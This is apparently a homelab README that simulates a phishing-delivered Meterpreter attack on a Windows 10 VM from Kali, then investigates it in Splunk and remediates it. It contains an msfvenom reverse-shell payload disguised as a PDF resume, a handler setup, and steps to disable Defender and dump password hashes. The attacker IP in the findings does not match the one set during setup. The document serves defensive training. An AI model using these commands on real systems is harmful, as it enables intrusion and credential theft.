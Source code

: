 
---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10  
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux  
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.
![Network Configuration Screenshot](./assets/network-topology.png)
- Go to **Settings > Network > Select Internal Network**  
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    ![kali ip](./assets/win10ip.png)
    - Kali Linux (Attacker): 192.168.1.20  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command](./assets/pingtest.png)

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   ![Nmap scan results](./assets/nmap.png)

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your_IP> lport=4444 -f exe -o Resume.pdf.exe
   ![malware created](./assets/msfresume.png)

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   ![Screenshot of phishing email](./assets/mail.png)

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost <Your_IP>
   set lport 4444
   options
   exploit
   ```
![msf consoole](./assets/msfconsole.png)
### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.
![malware running](./assets/malware-runing.png)
### Step 3: Access the Victim Machine
- Connection established 
![connection establish](./assets/connection.png)

- use `shell` to execute commands on victim machine
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10
- Ran `index="main" resume` to get related logs for malware file
![search](./assets/Splunk%20search.png)
- Ran `index="main" 192.168.100.101` to get all entries going to attacker ip
![search](./assets/Splunk-dest_ip.png)
- Fist log after malware execution
![search](./assets/Splunk-first-log.png)

- Below are some findings after Investigating splunk logs
   - **Malware file:** Resume.pdf.exe
   - **Destination/Attacker ip:** 192.168.100.101
   - **Process Id:** 1408
   - **Attack time:** 28/10/2024 at 4:24 PM

### 3. Malware Removal and Remediation

- Terminate the malicious process by `END Task`in Task manager.
- Delete the malware executable from Download location.
- Delete phishing mail
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab simulation demonstrated a cyber-attack process from setup through remediation, providing a hands-on experience in both offensive and defensive cybersecurity skills. By leveraging tools like Splunk and Sysmon, the investigation traced the attack's behavior, enabling a thorough remediation process to secure the system.

---

